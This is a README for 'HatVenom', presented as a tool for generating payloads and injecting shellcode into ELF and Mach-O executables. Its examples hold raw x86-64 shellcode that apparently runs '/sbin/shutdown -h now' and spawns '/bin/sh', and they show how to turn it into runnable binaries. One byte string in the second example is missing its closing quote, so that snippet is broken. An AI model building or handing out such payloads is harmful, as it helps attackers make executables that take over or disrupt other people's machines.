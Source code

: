 # HatVenom

Powerful payload generation and shellcode injection tool that provides support for common platforms and architectures.

## CLI examples

```bash
python3 hatvenom.py --format elf --arch x64 --shellcode <shellcode>
```

## Python example

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xc0\x48\x31\xd2\x50\x6a"
    b"\x77\x66\x68\x6e\x6f\x48\x89\xe3"
    b"\x50\x66\x68\x2d\x68\x48\x89\xe1"
    b"\x50\x49\xb8\x2f\x73\x62\x69\x6e"
    b"\x2f\x2f\x2f\x49\xba\x73\x68\x75"
    b"\x74\x64\x6f\x77\x6e\x41\x52\x41"
    b"\x50\x48\x89\xe7\x52\x53\x51\x57"
    b"\x48\x89\xe6\x48\x83\xc0\x3b\x0f"
    b"\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('elf', 'x64', shellcode)
```

## Replacing offsets

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xf6\x56\x48\xbf"
    b"string"
    b"\x57\x48\x89\xe7\x48\x31"
    b"\xd2\x48\x31\xc0\xb0\x02
    b"\x48\xc1\xc8\x28\xb0\x3b"
    b"\x0f\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('macho', 'x64', shellcode, {'string':'//bin/sh'})
```
